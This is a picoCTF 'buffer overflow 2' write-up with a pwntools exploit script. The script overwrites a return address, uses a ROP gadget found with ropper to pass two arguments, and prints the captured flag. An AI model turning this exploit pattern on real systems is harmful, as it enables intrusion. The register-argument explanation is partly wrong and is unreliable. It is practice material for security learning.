 # buffer overflow 2
> Description
> Control the return address and arguments

### Solution
**I guess my solution is non-assumed solution.**

After causing an overflow and overwrites the return address,
you have to set the value to the first and second arguments as shown below.

```
arg1 <- 0xCAFEF00D
arg2 <- 0xF00DF00D
```

`esi` register is the first argument and `edi` register is the second argument,
so you need to search `pop esi; pop edi; ret;` gadget.

Using the ropper,
```
$ropper -f vuln --search "pop esi; pop edi;"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop esi; pop edi;

[INFO] File: vuln
0x08049451: pop esi; pop edi; pop ebp; ret;
```

Final solution

```
from pwn import *

#file = "./vuln"
host = "saturn.picoctf.net"
port = 49940
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

pop_esi_edi_ebp = 0x08049451

io = remote(host, port)
#io = process(file)
pld = b"A"*112
pld += p32(0x08049296)
pld += p32(pop_esi_edi_ebp)
pld += p32(0xCAFEF00D) # edi
pld += p32(0xF00DF00D) # esi


io.sendlineafter("string:", pld)

io.interactive()
#picoCTF{argum3nt5_4_d4yZ_74abd092}
```
